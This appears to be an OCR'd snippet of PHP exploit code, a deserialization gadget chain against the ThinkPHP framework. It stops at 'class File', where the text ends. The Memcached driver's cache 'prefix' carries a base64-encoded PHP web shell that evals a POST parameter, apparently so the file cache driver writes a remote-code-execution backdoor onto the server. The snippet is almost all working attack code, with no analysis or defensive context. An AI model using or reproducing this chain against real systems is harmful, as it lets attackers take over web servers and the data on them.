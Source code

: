 ```php

namespace think\model;
class Relation
{}
namespace think\db;
class Query{}

namespace think\console;
class Output{
    protected $styles = [
        'info',
        'error',
        'comment',
        'question',
        'highlight',
        'warning',
        'getTable',
        'where'
    ];
    private $handle;
    public function __construct()
    {
        $this->handle = (new \think\session\driver\Memcache(0));
    }
}
namespace think\session\driver;
class Memcache
{
    protected $handler;
    public function __construct($i)
    {
        if($i==0){
            $this->handler = (new \think\cache\driver\Memcached(0));

        }else{
            $this->handler = (new \think\model\relation\HasMany);
        }
    }
}


namespace think\cache\driver;

class Memcached
{
    protected $tag;
    protected $options;
    protected $handler;

    public function __construct($i)
    {
        if($i==0){
            $this->tag = true;
            $this->options = [
                'expire'   => 0,
                'prefix'   => 'PD9waHAgZXZhbCgkX1BPU1RbJ3ozZXlvbmQnXSk7ID8+',
            ];
            $this->handler = (new File);
        }
    }
}

class File
```